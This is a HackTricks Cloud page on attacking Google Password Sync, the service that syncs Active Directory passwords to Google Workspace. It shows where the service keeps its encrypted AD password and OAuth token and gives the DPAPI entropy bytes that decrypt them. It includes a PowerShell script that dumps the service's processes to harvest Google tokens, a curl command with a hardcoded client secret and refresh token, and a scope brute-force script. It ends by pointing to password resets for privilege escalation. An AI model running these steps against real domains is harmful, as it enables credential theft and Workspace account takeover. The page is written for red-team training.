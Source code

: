 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

This is the binary and service that Google offers in order to **keep synchronized the passwords of the users between the AD** and Workspace. Every-time a user changes his password in the AD, it's set to Google.

It gets installed in `C:\Program Files\Google\Password Sync` where you can find the binary `PasswordSync.exe` to configure it and `password_sync_service.exe` (the service that will continue running).

### GPS - Configuration

To configure this binary (and service), it's needed to **give it access to a Super Admin principal in Workspace**:

* Login via **OAuth** with Google and then it'll **store a token in the registry (encrypted)**
  * Only available in Domain Controllers with GUI
* Giving some **Service Account credentials from GCP** (json file) with permissions to **manage the Workspace users**
  * Very bad idea as those credentials never expired and could be misused
  * Very bad idea give a SA access over workspace as the SA could get compromised in GCP and it'll possible to pivot to Workspace
  * Google require it for domain controlled without GUI
  * These creds are also stored in the registry

Regarding AD, it's possible to indicate it to use the current **applications context, anonymous or some specific credentials**. If the credentials option is selected, the **username** is stored inside a file in the **disk** and the **password** is **encrypted** and stored in the **registry**.

### GPS - Dumping password and token from disk

{% hint style="success" %}
Note that [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) is capable to detect **GPS**, get information about the configuration and **even decrypt the password and token**.
{% endhint %}

In the file **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** it's possible to find part of the configuration like the **`baseDN`** of the AD configured and the **`username`** whose credentials are being used.

In the registry **`HKLM\Software\Google\Google Apps Password Sync`** it's possible to find the **encrypted refresh token** and the **encrypted password** for the AD user (if any). Moreover, if instead of an token, some **SA credentials** are used, it's also possible to find those encrypted in that registry address. The **values** inside this registry are only **accessible** by **Administrators**.

The encrypted **password** (if any) is inside the key **`ADPassword`** and is encrypted using **`CryptProtectData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

The encrypted token (if any) is inside the key **`AuthToken`** and is encrypted using **`CryptProtecData`** API. To decrypt it, you need to be the same user as the one that configured the password sync and use this **entropy** when using the **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Moreover, it's also encoded using base32hex with the dictionary **`0123456789abcdefghijklmnopqrstv`**.

The entropy values were found by using the tool . It was configured to monitor the calls to **`CryptUnprotectData`** and **`CryptProtectData`** and then the tool was used to launch and monitor `PasswordSync.exe` which will decrypt the configured password and auth token at the beginning and the tool will **show the values for the entropy used** in both cases:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Note that it's also possible to see the **decrypted** values in the input or output of the calls to these APIs also (in case at some point Winpeas stop working).

In case the Password Sync was **configured with SA credentials**, it will also be stored in keys inside the registry **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping tokens from memory

Just like with GCPW, it's possible to dump the memory of the process of the `PasswordSync.exe` and the `password_sync_service.exe` processes and you will be able to find refresh and access tokens (if they have been generated already).\
I guess you could also find the AD configured credentials.

<details>

<summary>Dump <code>PasswordSync.exe</code> and the <code>password_sync_service.exe</code> processes and search tokens</summary>

```powershell
# Define paths for Procdump and Strings utilities   
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"   
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"   
$dumpFolder = "C:\Users\Public\dumps"   
 
# Regular expressions for tokens 
$tokenRegexes = @( 
    "ya29\.[a-zA-Z0-9_\.\-]{50,}", 
    "1//[a-zA-Z0-9_\.\-]{50,}" 
) 
 
# Show EULA if it wasn't accepted yet for strings 
$stringsPath 
 
# Create a directory for the dumps if it doesn't exist   
if (!(Test-Path $dumpFolder)) {   
    New-Item -Path $dumpFolder -ItemType Directory   
}   
 
# Get all Chrome process IDs   
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id
 
# Dump each Chrome process   
foreach ($processId in $chromeProcesses) {   
    Write-Output "Dumping process with PID: $processId"   
    & $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"   
}   
 
# Extract strings and search for tokens in each dump   
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {   
    $dumpFile = $_.FullName   
    $baseName = $_.BaseName 
    $asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"   
    $unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"   
 
    Write-Output "Extracting strings from $dumpFile"   
    & $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile   
    & $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile   
 
    $outputFiles = @($asciiStringsFile, $unicodeStringsFile) 
 
    foreach ($file in $outputFiles) { 
        foreach ($regex in $tokenRegexes) { 
 
            $matches = Select-String -Path $file -Pattern $regex -AllMatches 
 
            $uniqueMatches = @{} 
 
            foreach ($matchInfo in $matches) { 
                foreach ($match in $matchInfo.Matches) { 
                    $matchValue = $match.Value 
                    if (-not $uniqueMatches.ContainsKey($matchValue)) { 
                        $uniqueMatches[$matchValue] = @{ 
                            LineNumber = $matchInfo.LineNumber 
                            LineText   = $matchInfo.Line.Trim() 
                            FilePath   = $matchInfo.Path 
                        } 
                    } 
                } 
            } 
 
            foreach ($matchValue in $uniqueMatches.Keys) { 
                $info = $uniqueMatches[$matchValue] 
                Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)" 
            } 
        } 
 
        Write-Output "" 
    } 
}
```

</details>

### GPS - Generating access tokens from refresh tokens

Using the refresh token it's possible to generate access tokens using it and the client ID and client secret specified in the following command:

```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     https://www.googleapis.com/oauth2/v4/token
```

### GPS - Scopes

{% hint style="info" %}
Note that even having a refresh token, it's not possible to request any scope for the access token as you can only requests the **scopes supported by the application where you are generating the access token**.

Also, the refresh token is not valid in every application.
{% endhint %}

By default GPS won't have access as the user to every possible OAuth scope, so using the following script we can find the scopes that can be used with the `refresh_token` to generate an `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>

```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do 
    echo -ne "Testing $scope           \r"
    if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
     --data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
     --data "grant_type=refresh_token" \
     --data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
     --data "scope=$scope" \
     https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
        echo ""
        echo $scope
        echo $scope >> /tmp/valid_scopes.txt
    fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```

</details>

And this is the output I got at the time of the writing:

```
https://www.googleapis.com/auth/admin.directory.user
```

Which is the same one you get if you don't indicate any scope.

{% hint style="danger" %}
With this scope you could **modify the password of a existing user to escalate privileges**.
{% endhint %}

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
